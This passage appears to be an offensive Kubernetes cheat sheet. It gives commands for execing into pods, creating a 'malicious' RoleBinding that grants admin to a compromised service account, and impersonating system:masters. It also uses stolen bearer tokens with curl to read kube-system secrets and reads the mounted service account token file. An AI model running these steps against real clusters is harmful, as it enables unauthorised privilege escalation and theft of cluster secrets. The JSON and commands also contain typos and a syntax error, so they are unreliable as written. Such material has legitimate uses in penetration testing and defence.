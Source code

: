 ### Privilege to Use Pods/Exec

```powershell
kubectl exec -it <POD NAME> -n <PODS NAMESPACE> –- sh
```

### Privilege to Get/Patch Rolebindings

The purpose of this JSON file is to bind the admin "CluserRole" to the compromised service account.
Create a malicious RoleBinging.json file.

```powershell
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
            "kind": "ServiceAccount",
            "name": "sa-comp"
            "namespace": "default"
        }
    ]
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

### Impersonating a Privileged Account

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

## Privileged Service Account Token

```powershell
$ cat /run/secrets/kubernetes.io/serviceaccount/token
$ curl -k -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/default/secrets/
```
